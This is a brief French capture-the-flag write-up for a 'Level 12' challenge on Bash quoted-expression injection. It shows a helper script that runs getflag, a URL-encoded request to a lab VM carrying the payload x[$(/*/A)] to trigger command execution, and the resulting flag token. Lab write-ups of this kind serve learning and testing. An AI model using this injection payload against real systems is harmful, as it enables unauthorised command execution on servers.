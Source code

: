 # Level 12
Web resources: 
- source: https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection

- On ecrit un script qui execute getflag
  - `cat /tmp/A`
  ```
  #!/bin/bash
  
  getflag > /tmp/flag
  ```
- On execute ce script avec une variable
  - https://192.168.1.39/?x=x%5B%24(%2F*%2FA)%5D  _(`x[$(/*/A)]`)_
- `cat /tmp/flag`
```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
